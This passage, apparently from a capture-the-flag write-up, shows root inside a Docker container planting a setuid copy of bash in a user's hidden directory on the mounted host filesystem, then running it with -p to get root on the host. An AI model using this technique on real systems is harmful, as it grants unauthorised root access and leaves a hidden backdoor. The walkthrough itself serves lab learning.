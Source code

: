 

    root@db2fa4542744:/mnt# cp bin/bash home/luffy/.local/.0xdf
    root@db2fa4542744:/mnt# ls -l home/luffy/.local/.0xdf
    -rwxr-xr-x 1 root root 1113504 May 12 00:46 home/luffy/.local/.0xdf
    root@db2fa4542744:/mnt# chmod 4755 home/luffy/.local/.0xdf
    root@db2fa4542744:/mnt# ls -l home/luffy/.local/.0xdf
    -rwsr-xr-x 1 root root 1113504 May 12 00:46 home/luffy/.local/.0xdf



Now exit the container, and run it (with `-p`):



    luffy@cache:~$ .local/.0xdf -p
    .0xdf-4.4# id
    uid=1001(luffy) gid=1001(luffy) euid=0(root) groups=1001(luffy),999(docker)







